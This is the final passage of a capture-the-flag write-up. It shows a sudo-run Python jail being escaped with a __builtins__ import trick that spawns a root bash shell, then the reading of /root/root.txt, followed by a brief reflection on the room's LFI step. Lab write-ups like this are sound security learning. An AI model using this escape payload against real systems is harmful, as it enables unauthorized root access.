 ```bash
sudo /usr/bin/python3 /home/kamishiro/jail.py
Hi! Welcome to my world kaneki
========================================================================
What ? You gonna stand like a chicken ? fight me Kaneki
>>> __builtins__.__dict__['__IMPORT__'.lower()]('pty').spawn("/bin/bash")
	
root@vagrant:~# whoami
root
	
root@vagrant:~# cat /root/root.txt 
ROOT_FLAG
```

## The End
This was an interesting room. I struggled a little bit exploiting the LFI. Somehow the first time I tried to escape the dots it failed. I might have not gone back far enough in the folder hierarchy. 

And I would never had been able to solve the Python Jail escaping without the blog post I found. 
